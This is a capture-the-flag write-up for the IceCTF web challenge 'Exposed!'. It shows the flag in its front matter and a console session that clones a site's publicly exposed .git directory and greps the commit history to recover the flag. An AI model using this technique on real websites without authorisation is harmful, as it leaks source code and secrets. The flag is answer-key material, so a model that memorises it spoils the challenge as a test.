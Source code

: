 ```yaml
---
layout: writeup
title: 'Exposed!'
level: 2
difficulty:
points:
categories: [web]
tags: []
flag: IceCTF{secure_y0ur_g1t_repos_pe0ple}
---
```

## Challenge

John is pretty happy with himself, he just made his first [website][1]!
He used all the hip and cool systems, like NginX, PHP and Git! Everyone
is so happy for him, but can you get him to give you the flag?

## Solution

Git is a pretty big hint here, it seemed safe to assume that if he was
deploying with git, then the web directory was git.

    $ git clone http://exposed.vuln.icec.tf/
    Cloning into 'exposed.vuln.icec.tf'...
    fatal: repository 'http://exposed.vuln.icec.tf/' not found
    
    $ git clone http://exposed.vuln.icec.tf/.git
    Cloning into 'exposed.vuln.icec.tf'...
    Checking connectivity... done.
    
    # Success!
    
    $ git log -p | grep IceCTF
    -IceCTF{this_isnt_the_flag_either}
    -                    echo 'IceCTF{not_this_flag}';
    +IceCTF{this_isnt_the_flag_either}
    +                    echo 'IceCTF{not_this_flag}';
    -                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
    +                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
{: .language-console}


[1]: http://exposed.vuln.icec.tf/

